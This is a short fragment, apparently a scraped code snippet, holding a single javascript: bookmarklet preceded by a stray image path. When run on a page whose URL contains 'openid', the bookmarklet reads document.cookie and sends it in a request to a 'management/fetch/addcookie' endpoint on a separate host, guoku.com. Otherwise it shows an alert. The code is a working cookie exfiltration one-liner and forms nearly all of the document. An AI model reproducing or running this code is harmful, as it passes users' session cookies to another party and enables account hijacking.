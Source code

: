javascript:/openid=/ig.test(location.href) ? window.open('http://www.guoku.com/management/fetch/addcookie/?cookie=' +encodeURIComponent(document.cookie)+ ' ') : alert('not In Right Page')